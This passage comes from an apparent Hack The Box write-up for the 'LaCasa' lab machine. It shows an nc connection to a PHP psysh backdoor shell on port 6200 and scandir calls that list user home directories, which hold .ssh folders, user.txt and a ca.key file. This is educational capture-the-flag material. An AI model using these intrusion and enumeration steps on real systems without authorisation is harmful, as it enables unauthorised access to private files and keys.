 Ok, here's why, bash is not listening on port 6200 but rather psysh, some kind of PHP shell cli.

```
# nc -nv 10.10.10.131 6200
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.131:6200.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```

![](/assets/images/htb-writeup-lacasa/psysh.png)

I can't run `system` or any other commands that'll give me a shell, as those are specifically blacklisted in the `disable_functions` parameter of the `php.ini` configuration file but I can use the `scandir` and `readfile` functions to poke at the filesystem.

```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
scandir('/home/berlin');
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
scandir('/home/dali');
=> [
     ".",
     "..",
     ".ash_history",
     ".config",
     ".qmail-default",
     ".ssh",
     "server.js",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
```